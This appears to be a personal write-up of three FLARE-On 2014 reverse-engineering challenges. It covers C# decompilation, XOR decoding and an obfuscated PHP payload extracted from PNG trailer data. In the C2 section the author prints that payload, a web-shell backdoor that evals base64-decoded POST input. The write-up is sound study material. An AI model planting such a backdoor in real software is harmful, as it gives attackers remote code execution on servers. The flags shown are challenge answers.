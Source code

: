 ```yaml
---
title: "FLARE-On 2014 writeups"
pubDate: "2025-05-06"
description: "CTF challenge writeup."
tags:
  - writeups
  - ctf
  - RE 
  - C#
  - Debugging
toc: true
math: true
---
```


# Overview

I've began to learn reverse engineering, and by the end of this year I aim to be decent at it, I will start with the Flare On and bunch of other challenges.

## C1

Its a Windows Form with Bob Ross on it.

![a](/images/flareon2014/c1_1.png)

I've noticed the title of the Program `Form 1` and thought that this is .NET binary, I loaded it into `dnSpy` and explored it.

![a](/images/flareon2014/c1_2.png)

We are having a hidden resource called `dat_secret` which are random bytes, then we have a decryption function that looks like this:

```csharp
// Token: 0x06000002 RID: 2 RVA: 0x00002060 File Offset: 0x00000260
private void btnDecode_Click(object sender, EventArgs e)
{
    this.pbRoge.Image = Resources.bob_roge;
    byte[] dat_secret = Resources.dat_secret;
    string text = "";
    foreach (byte b in dat_secret)
    {
        text += (char)((b >> 4 | ((int)b << 4 & 240)) ^ 41);
    }
    text += "\0";
    string text2 = "";
    for (int j = 0; j < text.Length; j += 2)
    {
        text2 += text[j + 1];
        text2 += text[j];
    }
    string text3 = "";
    for (int k = 0; k < text2.Length; k++)
    {
        char c = text2[k];
        text3 += (char)((byte)text2[k] ^ 102);
    }
    this.lbl_title.Text = text3;
}
```

We transform the text 3 times, first we byte swap it and xor it with 41 then we do some char swapping and then we xor it again with 102.

Now, I wanted to debug the function, so that I can inspect what would be the text after the first transformation.

![a](/images/flareon2014/c1_3.png)

So, we have the `"3rmahg3rd.b0b.d0ge@flare-on.com"` string which is our flag.

## C2 

This challenge starts with a simple home page and an image with the flare logo.

```
drwxr-xr-x 5 vscode vscode 4096 May  6 07:28 .
drwxr-xr-x 3 vscode vscode 4096 May  6 07:24 ..
-rw-r--r-- 1 vscode vscode 8375 May  6 07:25 home.html
drwxr-xr-x 2 vscode vscode 4096 May  6 07:25 img
```

Upon first inspection there isn't anything, but we can inspect it with `exiftool`:

```
ExifTool Version Number         : 12.76
File Name                       : flare-on.png
Directory                       : .
File Size                       : 9.6 kB
File Modification Date/Time     : 2014:07:08 04:30:47+03:00
File Access Date/Time           : 2025:05:06 10:17:03+03:00
File Inode Change Date/Time     : 2025:05:06 10:16:45+03:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 400
Image Height                    : 79
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Gamma                           : 2.2
Pixels Per Unit X               : 4724
Pixels Per Unit Y               : 4724
Pixel Units                     : meters
Software                        : Adobe ImageReady
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 400x79
Megapixels                      : 0.032
```

And we can see the warning, next we can use `strings` which will reveal this php monstrosity:

```php
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
```

If we follow the decryption, we would end up with `$do_me` being:

```php
<?php
$a= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';

$b="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65"; //base64_decode

eval($b($a));
```

Then we decrypt the next bit:

```php
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }
```

The text `\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D` is mix of ascii and hex representation, we can just use `echo`.



If we replace them we eventually will get:

```
a11DOTthatDOTjava5crapATflareDASHonDOTcom
a11.that.java5crap@flare-on.com
```

### C3 

```python
string = [7,8,2,0xF,0x15,9,0xF,0x0F,0x12,0xF,4,3,1,0x0F,8,0x15]

for i in string:
    s = chr(i ^ 0x66)
    print(s, end="")
```

```
$ python3 main.py
andisoiitibegins%   
```
